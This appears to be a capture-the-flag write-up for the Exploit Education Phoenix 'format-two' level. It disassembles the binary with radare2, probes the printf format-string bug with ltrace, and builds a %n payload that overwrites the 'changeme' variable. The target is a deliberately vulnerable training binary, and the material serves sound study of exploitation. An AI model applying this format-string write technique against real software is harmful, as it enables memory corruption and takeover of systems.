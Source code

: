 ```yaml
---
layout: post
title:  "Phoenix x86 Format Two"
date: "2019-10-18 19:30:00 +0300"
categories: exploit-education phoenix x86
---
```


Disassembling the binary with `radare2`:

{% highlight shell %}
$ r2 /opt/phoenix/i486/format-two
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x08048620
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08048611    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   44 524  -> 608  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486c4    1 14           loc.__GNU_EH_FRAME_HDR
0x080486e8    3 34           sym..eh_frame
0x08048724    1 10           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x0804876c    1 4            obj.__FRAME_END
0x0804852c    6 172          main
0x08048515    1 23           sym.bounce
0x08048320    1 6            sym.imp.printf
0x08048330    1 6            sym.imp.puts
0x08048340    1 6            sym.imp.strncpy
0x08048350    1 6            sym.imp.memset
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x0804852c]> pdf
/ (fcn) main 172
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_108h @ ebp-0x108
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x0804852c      8d4c2404       lea ecx, [arg_4h]
|           0x08048530      83e4f0         and esp, 0xfffffff0
|           0x08048533      ff71fc         push dword [ecx - 4]
|           0x08048536      55             push ebp
|           0x08048537      89e5           mov ebp, esp
|           0x08048539      53             push ebx
|           0x0804853a      51             push ecx
|           0x0804853b      81ec00010000   sub esp, 0x100
|           0x08048541      89cb           mov ebx, ecx
|           0x08048543      83ec0c         sub esp, 0xc
|           0x08048546      6820860408     push str.Welcome_to_phoenix_format_two__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048620 ; "Welcome to phoenix/format-two, brought to you by https://exploit.education"
|           0x0804854b      e8e0fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048550      83c410         add esp, 0x10
|           0x08048553      833b01         cmp dword [ebx], 1
|       ,=< 0x08048556      7e4b           jle 0x80485a3
|       |   0x08048558      83ec04         sub esp, 4
|       |   0x0804855b      6800010000     push 0x100                  ; 256
|       |   0x08048560      6a00           push 0
|       |   0x08048562      8d85f8feffff   lea eax, [var_108h]
|       |   0x08048568      50             push eax
|       |   0x08048569      e8e2fdffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|       |   0x0804856e      83c410         add esp, 0x10
|       |   0x08048571      8b4304         mov eax, dword [ebx + 4]
|       |   0x08048574      83c004         add eax, 4
|       |   0x08048577      8b00           mov eax, dword [eax]
|       |   0x08048579      83ec04         sub esp, 4
|       |   0x0804857c      6800010000     push 0x100                  ; 256
|       |   0x08048581      50             push eax
|       |   0x08048582      8d85f8feffff   lea eax, [var_108h]
|       |   0x08048588      50             push eax
|       |   0x08048589      e8b2fdffff     call sym.imp.strncpy        ; char *strncpy(char *dest, const char *src, size_t  n)
|       |   0x0804858e      83c410         add esp, 0x10
|       |   0x08048591      83ec0c         sub esp, 0xc
|       |   0x08048594      8d85f8feffff   lea eax, [var_108h]
|       |   0x0804859a      50             push eax
|       |   0x0804859b      e875ffffff     call sym.bounce
|       |   0x080485a0      83c410         add esp, 0x10
|       `-> 0x080485a3      a168980408     mov eax, dword [obj.changeme] ; [0x8049868:4]=0
|           0x080485a8      85c0           test eax, eax
|       ,=< 0x080485aa      7412           je 0x80485be
|       |   0x080485ac      83ec0c         sub esp, 0xc
|       |   0x080485af      686c860408     push str.Well_done__the__changeme__variable_has_been_changed_correctly ; 0x804866c ; "Well done, the 'changeme' variable has been changed correctly!"
|       |   0x080485b4      e877fdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x080485b9      83c410         add esp, 0x10
|      ,==< 0x080485bc      eb10           jmp 0x80485ce
|      |`-> 0x080485be      83ec0c         sub esp, 0xc
|      |    0x080485c1      68ab860408     push str.Better_luck_next_time ; 0x80486ab ; "Better luck next time!\n"
|      |    0x080485c6      e865fdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485cb      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485bc
|      `--> 0x080485ce      83ec0c         sub esp, 0xc
|           0x080485d1      6a00           push 0
\           0x080485d3      e888fdffff     call sym.imp.exit           ; void exit(int status)
[0x0804852c]> agf
[0x0804852c]>  # int main (int argc, char **argv, char **envp);
                       .----------------------------------------------------------------------------------------.
                       |  0x804852c                                                                             |
                       | (fcn) main 172                                                                         |
                       |   int main (int argc, char **argv, char **envp);                                       |
                       | ; var int32_t var_108h @ ebp-0x108                                                     |
                       | ; arg int32_t arg_4h @ esp+0x4                                                         |
                       | ; DATA XREF from entry0 @ 0x80483b4                                                    |
                       | lea ecx, [arg_4h]                                                                      |
                       | and esp, 0xfffffff0                                                                    |
                       | push dword [ecx - 4]                                                                   |
                       | push ebp                                                                               |
                       | mov ebp, esp                                                                           |
                       | push ebx                                                                               |
                       | push ecx                                                                               |
                       | sub esp, 0x100                                                                         |
                       | mov ebx, ecx                                                                           |
                       | sub esp, 0xc                                                                           |
                       | ; sym..rodata                                                                          |
                       | ; 0x8048620                                                                            |
                       | ; "Welcome to phoenix/format-two, brought to you by https://exploit.education"         |
                       | push str.Welcome_to_phoenix_format_two__brought_to_you_by_https:__exploit.education    |
                       | ; int puts(const char *s)                                                              |
                       | call sym.imp.puts;[oa]                                                                 |
                       | add esp, 0x10                                                                          |
                       | cmp dword [ebx], 1                                                                     |
                       | jle 0x80485a3                                                                          |
                       `----------------------------------------------------------------------------------------'
                               f t
                               | |
                               | '---------------------------------------------------.
                           .---'                                                     |
                       .---------------------------------------------------------.   |
                       |  0x8048558                                              |   |
                       | sub esp, 4                                              |   |
                       | ; 256                                                   |   |
                       | push 0x100                                              |   |
                       | push 0                                                  |   |
                       | lea eax, [var_108h]                                     |   |
                       | push eax                                                |   |
                       | ; void *memset(void *s, int c, size_t n)                |   |
                       | call sym.imp.memset;[ob]                                |   |
                       | add esp, 0x10                                           |   |
                       | mov eax, dword [ebx + 4]                                |   |
                       | add eax, 4                                              |   |
                       | mov eax, dword [eax]                                    |   |
                       | sub esp, 4                                              |   |
                       | ; 256                                                   |   |
                       | push 0x100                                              |   |
                       | push eax                                                |   |
                       | lea eax, [var_108h]                                     |   |
                       | push eax                                                |   |
                       | ; char *strncpy(char *dest, const char *src, size_t  n) |   |
                       | call sym.imp.strncpy;[oc]                               |   |
                       | add esp, 0x10                                           |   |
                       | sub esp, 0xc                                            |   |
                       | lea eax, [var_108h]                                     |   |
                       | push eax                                                |   |
                       | call sym.bounce;[od]                                    |   |
                       | add esp, 0x10                                           |   |
                       `---------------------------------------------------------'   |
                           v                                                         |
                           |                                                         |
                           '----------------------------.                            |
                                                        | .--------------------------'
                                                        | |
                                                  .----------------------------------.
                                                  |  0x80485a3                       |
                                                  | ; [0x8049868:4]=0                |
                                                  | mov eax, dword [obj.changeme]    |
                                                  | test eax, eax                    |
                                                  | je 0x80485be                     |
                                                  `----------------------------------'
                                                          f t
                                                          | |
                                                          | '-----------------------.
    .-----------------------------------------------------'                         |
    |                                                                               |
.---------------------------------------------------------------------------.   .-----------------------------------.
|  0x80485ac                                                                |   |  0x80485be                        |
| sub esp, 0xc                                                              |   | sub esp, 0xc                      |
| ; 0x804866c                                                               |   | ; 0x80486ab                       |
| ; "Well done, the 'changeme' variable has been changed correctly!"        |   | ; "Better luck next time!\n"      |
| push str.Well_done__the__changeme__variable_has_been_changed_correctly    |   | push str.Better_luck_next_time    |
| ; int puts(const char *s)                                                 |   | ; int puts(const char *s)         |
| call sym.imp.puts;[oa]                                                    |   | call sym.imp.puts;[oa]            |
| add esp, 0x10                                                             |   | add esp, 0x10                     |
| jmp 0x80485ce                                                             |   `-----------------------------------'
`---------------------------------------------------------------------------'       v
    v                                                                               |
    |                                                                               |
    '---------------------------------------------------.                           |
                                                        | .-------------------------'
                                                        | |
                                                  .-----------------------------------.
                                                  |  0x80485ce                        |
                                                  | ; CODE XREF from main @ 0x80485bc |
                                                  | sub esp, 0xc                      |
                                                  | push 0                            |
                                                  | ; void exit(int status)           |
                                                  | call sym.imp.exit;[oe]            |
                                                  `-----------------------------------'
[0x0804852c]> pdf @ sym.bounce 
/ (fcn) sym.bounce 23
|   sym.bounce (int32_t arg_8h);
|           ; arg int32_t arg_8h @ ebp+0x8
|           ; CALL XREF from main @ 0x804859b
|           0x08048515      55             push ebp
|           0x08048516      89e5           mov ebp, esp
|           0x08048518      83ec08         sub esp, 8
|           0x0804851b      83ec0c         sub esp, 0xc
|           0x0804851e      ff7508         push dword [arg_8h]
|           0x08048521      e8fafdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048526      83c410         add esp, 0x10
|           0x08048529      90             nop
|           0x0804852a      c9             leave
\           0x0804852b      c3             ret
{% endhighlight %}

There are a few things to break down:
1. The binary needs an argument.
1. The argument is copied into a buffer, which is set to zero beforehand.
1. There is a call to `sym.bounce`, which simply calls `printf` with the buffer as a format string.
1. The objective is to overwrite the variable `obj.changeme` with an arbitrary value.

Due to the simplicity of this level, `ltrace` should offer enough help to exploit this vulnerability.

The methodology is as follows:
1. Execute the binary with `ltrace` and as an argument write 4 bytes (e.g. `AAAA`) followed by one `%x`.
1. If the 4 bytes that were written firstly are shown in the output, stop.
1. Otherwise, append another `%x`.
1. Repeat from step two.

{% highlight shell %}
$ ltrace /opt/phoenix/i486/format-two AAAA%x
__libc_start_main(0x804852c, 2, 0xffdb3ea4, 0x80482fc <unfinished ...>
puts("Welcome to phoenix/format-two, b"...Welcome to phoenix/format-two, brought to you by https://exploit.education
)                                                 = 0
memset(0xffdb3d10, '\0', 256)                                                               = 0xffdb3d10
strncpy(0xffdb3d10, "AAAA%x", 256)                                                          = 0xffdb3d10
printf("AAAA%x", 0xffdb463b)                                                                = 12
puts("Better luck next time!\n"AAAAffdb463bBetter luck next time!

)                                                            = 0
exit(0 <no return ...>
+++ exited (status 0) +++
$ ltrace /opt/phoenix/i486/format-two AAAA%x%x
__libc_start_main(0x804852c, 2, 0xff943e84, 0x80482fc <unfinished ...>
puts("Welcome to phoenix/format-two, b"...Welcome to phoenix/format-two, brought to you by https://exploit.education
)                                                 = 0
memset(0xff943cf0, '\0', 256)                                                               = 0xff943cf0
strncpy(0xff943cf0, "AAAA%x%x", 256)                                                        = 0xff943cf0
printf("AAAA%x%x", 0xff944639, 0x100)                                                       = 15
puts("Better luck next time!\n"AAAAff944639100Better luck next time!

)                                                            = 0
exit(0 <no return ...>
+++ exited (status 0) +++
{% endhighlight %}

Skipping to the result:

{% highlight shell %}
$ ltrace /opt/phoenix/i486/format-two AAAA%x%x%x%x%x%x%x%x%x%x%x%x
__libc_start_main(0x804852c, 2, 0xffc11ff4, 0x80482fc <unfinished ...>
puts("Welcome to phoenix/format-two, b"...Welcome to phoenix/format-two, brought to you by https://exploit.education
)                                                 = 0
memset(0xffc11e60, '\0', 256)                                                               = 0xffc11e60
strncpy(0xffc11e60, "AAAA%x%x%x%x%x%x%x%x%x%x%x%x", 256)                                    = 0xffc11e60
printf("AAAA%x%x%x%x%x%x%x%x%x%x%x%x", 0xffc13625, 0x100, 0, 0xf7ee6b67, 0xffc11f80, 0xffc11f68, 0x80485a0, 0xffc11e60, 0xffc13625, 0x100, 0x3e8, 0x41414141) = 77
puts("Better luck next time!\n"AAAAffc136251000f7ee6b67ffc11f80ffc11f6880485a0ffc11e60ffc136251003e841414141Better luck next time!

)                                                            = 0
exit(0 <no return ...>
+++ exited (status 0) +++
{% endhighlight %}

*Note the last 4 bytes at the line that starts with `printf`.*

Afterwards, the first 4 bytes are replaced with the address of `obj.changeme`, the last `%x` is replaced with `%n` and the one before that is replaced with `%8x`.

The address of `obj.changeme` can be obtained as follows:

{% highlight nasm %}
[0x08048380]> px/xw @ obj.changeme
0x08049868  0x00000000                                   ....
{% endhighlight %}

Debugging the binary with the final exploit:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-two $(printf "\x68\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%8x%n
{% endhighlight %}

{% highlight nasm %}
[0xf7f56d4b]> aas
Cannot analyze at 0x08048620
[0xf7f56d4b]> db 0x0804859b
[0xf7f56d4b]> dc
Welcome to phoenix/format-two, brought to you by https://exploit.education
hit breakpoint at: 804859b
[0x0804859b]> dr
eax = 0xff84fb90
ebx = 0xff84fcb0
ecx = 0x00000000
edx = 0x00000003
esi = 0xff84fd24
edi = 0x00000002
esp = 0xff84fb80
ebp = 0xff84fc98
eip = 0x0804859b
eflags = 0x00000296
oeax = 0xffffffff
[0x0804859b]> px/12xw 0xff84fb80
0xff84fb80  0xff84fb90 0xff8505f1 0x00000100 0x000003e8  ................
0xff84fb90  0x08049868 0x78257825 0x78257825 0x78257825  h...%x%x%x%x%x%x
0xff84fba0  0x78257825 0x78257825 0x25783825 0x0000006e  %x%x%x%x%8x%n...
[0x0804859b]> px/xw @ obj.changeme
0x08049868  0x00000000                                   ....
[0x0804859b]> dso
hit breakpoint at: 80485a0
[0x0804859b]> px/12xw 0xff84fb80
0xff84fb80  0xff84fb90 0xff8505f1 0x00000100 0x000003e8  ................
0xff84fb90  0x08049868 0x78257825 0x78257825 0x78257825  h...%x%x%x%x%x%x
0xff84fba0  0x78257825 0x78257825 0x25783825 0x0000006e  %x%x%x%x%8x%n...
[0x0804859b]> px/xw @ obj.changeme
0x08049868  0x0000004a                                   J...
[0x0804859b]> dc
hff8505f11000f7f15b67ff84fcb0ff84fc9880485a0ff84fb90ff8505f1100     3e8Well done, the 'changeme' variable has been changed correctly!
{% endhighlight %}

## Conclusion
This level required the attacker to exploit a format string vulnerability to overwrite a specific variable with an arbitrary value.